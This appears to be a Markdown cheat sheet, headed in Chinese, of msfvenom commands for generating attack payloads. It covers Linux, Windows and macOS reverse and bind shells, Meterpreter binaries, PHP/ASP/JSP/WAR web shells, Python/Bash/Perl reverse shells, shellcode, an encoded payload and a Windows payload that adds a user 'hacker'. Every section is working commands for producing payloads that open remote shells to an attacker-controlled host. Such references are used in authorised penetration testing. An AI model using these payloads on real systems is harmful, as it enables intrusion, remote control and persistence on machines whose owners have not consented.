 # msfvenom 生成payload

### List payloads

```bash
msfvenom -l
```

### **Binaries Payloads**

Linux Meterpreter Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```

Linux Bind Meterpreter Shell

```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```

Linux Bind Shell

```bash
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```

Windows Meterpreter Reverse TCP Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Windows Reverse TCP Shell

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Windows Encoded Meterpreter Windows Reverse Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

Mac Reverse Shell

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
```

Mac Bind Shell

```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
```

### **Web Payloads**

PHP Meterpreter Reverse TCP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```

ASP Meterpreter Reverse TCP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

JSP Java Meterpreter Reverse TCP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

### **Scripting Payloads**

Python Reverse Shell

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```

Bash Unix Reverse Shell

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

Perl Unix Reverse shell

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

### **Shellcode**

Windows Meterpreter Reverse TCP Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

Linux Meterpreter Reverse TCP Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

Mac Reverse TCP Shellcode

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

### **Add User**

```bash
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```
